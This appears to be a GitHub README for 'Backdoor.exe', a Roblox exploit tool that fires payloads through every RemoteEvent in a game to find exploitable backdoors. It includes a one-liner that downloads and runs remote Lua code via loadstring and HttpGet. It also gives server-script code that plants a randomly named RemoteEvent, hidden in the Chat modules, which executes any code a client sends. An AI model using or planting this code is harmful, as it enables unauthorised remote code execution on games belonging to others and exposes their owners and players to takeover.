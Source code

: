 # Backdoor.exe
The best backdoor scanner there is. Our [Discord Server](https://discord.com/invite/6HndYgC).

## Information
Backdoor.exe is script that scans for open backdoors in games in [Roblox](https://roblox.com/ "Roblox"). It does this by itterating through every Remote Event and firing a script of of them that creates an object. The scripts checks if the object is created, sees what Remote Event caused that to be created and stores it.
### Script
Using this will get you the most recent version of backdoor.exe.
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua"))()
```

### Opening a backdoor
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptServices`.
```lua
local Remote = Instance.new("RemoteEvent", game.Chat:WaitForChild("ClientChatModules").MessageCreatorModules)
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.OnServerEvent:connect(function(player, execute)
	loadstring(execute)()
end)
```

